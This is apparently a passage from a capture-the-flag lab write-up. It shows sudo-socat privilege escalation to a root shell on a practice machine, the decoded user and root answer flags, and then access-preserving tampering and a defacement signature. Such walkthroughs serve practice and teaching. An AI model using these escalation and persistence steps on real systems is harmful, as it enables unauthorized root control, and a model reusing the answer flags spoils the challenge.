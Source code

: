 1) I see the sudo privilege:
```
-bash-4.4$ sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
```
2) I use the socat binary to spawn root shell:
```
-bash-4.4$ sudo socat stdin exec:/bin/sh

```
3) I do upgrade of shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@elyana:~# 
```
4) I get the root flag:
```
root@elyana:~# cat /root/root.txt
cat /root/root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```
5)  I insert this flag in a file and I decode from base64:
```
┌──(kali㉿kali)-[~]
└─$ nano password.txt

┌──(kali㉿kali)-[~]
└─$ base64 --decode password.txt
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}  
```
--> Summary
- user.txt : THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
- root.txt : THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}

---------------------
## Patch the machines vulnerabilities to maintain your access

1) I edit the sudo privileges fram /usr/bin/socat:
```
root@elyana:~# chmod a=-r-w-x /usr/bin/socat
chmod a=-r-w-x /usr/bin/socat
root@elyana:~# ls -all /usr/bin/socat
ls -all /usr/bin/socat
---------- 1 root root 400624 Apr  4  2018 /usr/bin/socat
root@elyana:~# 
```
2) I leave my signature:
```
root@elyana:~# nano  /home/elyana/README.txt
root@elyana:~# chmod a=+r /home/elyana/README.txt
root@elyana:~# cat  /home/elyana/README.txt
CyberSpider  has been here, Now I am root :)
root@elyana:~#
```